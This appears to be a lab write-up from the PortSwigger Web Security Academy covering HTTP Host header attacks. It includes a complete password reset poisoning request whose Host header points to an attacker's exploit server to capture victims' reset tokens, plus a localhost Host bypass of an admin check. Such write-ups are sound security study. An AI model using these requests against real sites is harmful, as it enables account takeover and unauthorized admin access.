



# HTTP Host header attacks (2/7)

The Host header, present in any request of the HTTP/1.1 protocol, is normally used so the server can know what is the intended recipient backend application for a given request, since there are many servers that run more than one backend application in it’s infrastructure.

Vulnerabilities involving the Host header arise when there is the assumption that the Host header can be trusted and it’s not user-controllable, thus being used in functions that are vulnerable to some kind of injection.

## Labs

### Basic password reset poisoning

This lab introduces us to a password reset poisoning using the Host header. When we use the password reset functionality, the website makes a request to the backend server passing the username or email that the user submitted. Then, the backend server sends an email to the account’s owner address.

The vulnerability here occurs because it checks the request’s Host header in order to get the website’s URL, appending the name of the specific page and the password reset token, sending the ending URL to the account’s owner via e-mail. On this situation, we can send a request like the following:

```html
POST /forgot-password HTTP/2
Host: exploit-0ad200ae04b4173f81ce0638016e00e2.exploit-server.net
Cookie: _lab=46%7cMCwCFBQJwjJ59Rk5xD2xuxKFRz4b%2fyOGAhRtabaPlsM77An%2b40GFhJxhtPn%2fNwLH8q3ZGHT9epXqn0QpZ92HnZ3Y0BFuT0O5WDIpTICASL0KU1cE%2bcRP6oq0TCgpWO1nZKEvP3vXpap1pRyiEZBBcE0kv9nKgXbGfTkZI5NYvF9C2vE%3d; session=sLH3WtebeypVEhm7Vlk1TgrZbeYmejDa
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0a2700960421175e8147079a00420062.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=d4nwNS2DNbxruIDgCrdlDIYPBek95njr&username=carlos
```

Before sending the e-mail with the password reset’s link, it will be computed like this:

`https://exploit-0ad200ae04b4173f81ce0638016e00e2.exploit-server.net/forgot-password?temp-forgot-password-token=wq2gdqzh1prq5r8klec6m0l6ro9eieg6`

This way, when the user legitimate account owner clicks the link, they make a request to a server that is under our control, passing their password reset token as a parameter, which we can get on our server’s access log.



### Host header authentication bypass

On this lab, we get an error message by trying to access /admin, stating that this interface is only available to local users.



We bypass this authentication by replacing the Host header’s value with `localhost`, which somehow tricks the server into thinking that the request came from the internal network, probably due to some validation including only the host header.


